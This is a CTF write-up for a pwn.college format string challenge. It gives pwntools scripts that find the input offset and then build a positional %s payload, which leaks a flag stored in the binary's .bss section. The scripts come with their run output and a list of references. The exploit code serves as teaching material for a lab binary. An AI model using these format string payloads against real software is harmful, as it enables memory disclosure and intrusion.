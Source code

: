 ```yaml
---
title: "The BSS Leak"
description: ""
author: "İsmail BOZKURT"
date: 2025-08-19
tags:
  - binary-exploitation
  - format-string-attack
  - pwn
  - CTF
categories:
  - Exploitation
  - Pwn
  - Format-String-Attack
---
```


## Format String Attack - The Leak from BSS

Hey there, hope you are good. This variant doesn't much different from previous [The-Stack-Leak-2](/Dreamer-Wiki/Pwn/Linux/Format%20String%20Vulnerabilities/03-Format-String-Attack-The-Stack-Leak-2/).
Same approach, only difference the flag lies somewhere in BSS.

Like previous ones the address of **flag** exposed by the challenge. So only difference the getting address phase, rest is same as previous one.

```perl
> ./babyfmt_level3.0 
###
### Welcome to ./babyfmt_level3.0!
###

This challenge reads in some bytes, calls printf on that string, and allows you to perform
a format string attack. Through this series of challenges, you will become painfully familiar
with the concept of Format String Attacks!

This challenge allows you to make a 256-sized format string.

This challenge reads the flag into the .bss! Nice and easy; just read it out!

So, the flag is in the .bss. How are you going to get it?
One way to do it is to use %s in your format string. It will dereference a pointer
and print the string that the pointer is pointing to. This is perfect for leaking the
flag from the BSS!

But there's one problem... Unlike level 1, you don't have a pointer to the bss on the stack.
The solution? Write this address in as part of your format string, then use a positional %s (i.e.,
%X$s with the correct X) to use that address as the pointer. That way, you have full control of
the address!

In this case, the address you want is 0x404140. Remember to input it in little endian! To debug what
address your %s will dereference, you can replace 's' with 'x' and see what the address is
being interpreted at.

I will now read up to 256 bytes. Send your data!
asd
Received 4 bytes!

I will now call printf on your data!

asd

### Goodbye!
```



**find_offset_and_padlen.py**

```python
from pwn import *

# Load binary and configure context
elf = context.binary = ELF('./babyfmt_level3.0', checksec=False)
context.log_level = 'debug'

gdbscript = '''
continue
'''

def start():
    if args.GDB:
        return gdb.debug([elf.path], gdbscript=gdbscript)
    return process([elf.path])

#### send helper ####
def send_fmt(payload):
    io = start()
    try:
        io.sendafter(b'Send your data!\n', payload)
        data = io.recvall(timeout=0.01)
        return data
    finally:
        io.close()

f = FmtStr(send_fmt)

success(f'User input starts at  : {f.offset}')
success(f'Needed pads           :{f.padlen}')
success(f'Numbwritten           :{f.numbwritten}')
```

**The result:**

```python
[DEBUG] Received 0x76 bytes:
    b'Received 33 bytes!\n'
    b'\n'
    b'I will now call printf on your data!\n'
    b'\n'
    b'aaaabaaacaaadaaaeaaaSTART0x6161616361616162END\n'
    b'### Goodbye!\n'
[*] Found format string offset: 27
[+] User input starts at  : 27
[+] Needed pads           :4
[+] Numbwritten           :0
```

## get_flag

If you are new about pwntools, i settled **context.log_level='debug'**, so you can understand how address extracted. You can use regex also to do get the address. How lazy i am you have no idea.

**get_flag.py**

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template ./babyfmt_level3.0
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or './babyfmt_level3.0')
context.log_level = 'debug'
# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      Canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No


def build_payload(fmt: bytes, addrs: list[int], padlen: int, filler: bytes = b"|") -> bytes:
    ptrsz = context.bytes
    layout = { padlen: fmt }
    for i, a in enumerate(addrs):
        off = padlen + 16 + i*ptrsz
        layout[off] = p64(a) if ptrsz == 8 else p32(a)
    return fit(layout, filler=filler)

def minileak(leak):
    try:
        leak = re.findall(br"START(.*?)END", leak, re.MULTILINE | re.DOTALL)[0]
    except ValueError:
        leak = 0
    return leak

io = start()


##### Get BSS Address from Text #####
io.recvuntil(b'the address!\n\n')
bss_addr = int(io.recvline().strip().split(b' ')[8][:-1], 16)
info(f'BSS Address: {bss_addr:#x}')

##### Build Payload with the known offset and padlen #####
offset = 27
padlen = 4

fmt = f'START%%%d$sEND' % (offset+16//context.bytes)
payload = build_payload(fmt, [bss_addr], padlen=padlen)
io.sendafter(b'Send your data!\n', payload)

try:
    leak = io.recv()
    flag = minileak(leak).strip()
    io.critical(f'FLAG: {flag}')
except:
    error("Couldn't hack it")
finally:
    io.close()
```

**The result:**

```python
root@e2cb00cfcebe:/host# python3 exploit.py 
[*] '/host/babyfmt_level3.0'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[+] Starting local process '/host/babyfmt_level3.0': pid 190
[*] BSS Address: 0x404140
/host/exploit.py:54: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  return fit(layout, filler=filler)
[CRITICAL] FLAG: b'pwn.college{IL-**************************************MzEzW}'
[*] Process '/host/babyfmt_level3.0' stopped with exit code 0 (pid 190)
```

## References 

- [man7 — printf(3) (POSIX-style positional args, `*m$`, `%n`)](https://man7.org/linux/man-pages/man3/printf.3.html)
- [The Open Group — `fprintf()` (rule: don’t mix numbered & unnumbered specs)](https://pubs.opengroup.org/onlinepubs/009604499/functions/fprintf.html)
- [Linux die.net — printf(3) overview](https://linux.die.net/man/3/printf)
- [cppreference — `fprintf` family (width/precision basics)](https://en.cppreference.com/w/c/io/fprintf.html)
- [GNU C Library Manual (HTML) — libc reference](https://www.gnu.org/s/libc/manual/html_mono/libc.html)
- [GNU C Library Manual (PDF)](https://www.gnu.org/software/libc/manual/pdf/libc.pdf)
- [Stack Overflow — How positional args like `%1$` work (with POSIX quote)](https://stackoverflow.com/a/6322594/923794)
- [Stack Overflow — Meaning of `%m` (GNU extension)](https://stackoverflow.com/questions/20577557/whats-the-meaning-of-the-m-formatting-specifier)
- [CERT C — FIO30-C: Exclude user input from format strings](https://wiki.sei.cmu.edu/confluence/display/c/FIO30-C.%2BExclude%2Buser%2Binput%2Bfrom%2Bformat%2Bstrings)
- [OWASP — Format string attack](https://owasp.org/www-community/attacks/Format_string_attack)
- [OWASP WSTG — Testing for Format String Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/13-Testing_for_Format_String_Injection)
- [MITRE CWE-134 — Use of Externally-Controlled Format String](https://cwe.mitre.org/data/definitions/134.html)
- [Classic paper — “Exploiting Format String Vulnerabilities” (scut/Team TESO)](https://cs155.stanford.edu/papers/formatstring-1.2.pdf)
- [CTF 101 — Format String Vulnerability (intro)](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/)
- [pwn.college — Format String Exploits](https://pwn.college/software-exploitation/format-string-exploits)
- [CTF Cookbook — printf Leak](https://ctfcookbook.com/docs/pwn/printf-leak/)
- [Pwntools — `pwnlib.fmtstr` (FmtStr helper)](https://docs.pwntools.com/en/stable/fmtstr.html)
- [Pwntools — `pwnlib.util.packing.fit` / `flat`](https://docs.pwntools.com/en/stable/util/packing.html)
- [Pwntools — `context` settings (`context.binary`, `context.log_level`)](https://docs.pwntools.com/en/stable/context.html)
- [Pwntools — tubes (I/O helpers like `sendafter`, `recvuntil`)](https://docs.pwntools.com/en/stable/tubes.html)
- [Wikipedia — `.bss` section (what it is)](https://en.wikipedia.org/wiki/.bss)
- [LSB Refspec — ELF Special Sections (`.bss`)](https://refspecs.linuxfoundation.org/LSB_1.1.0/gLSB/specialsections.html)
- [Wikipedia — Endianness (little-endian reminder)](https://en.wikipedia.org/wiki/Endianness)
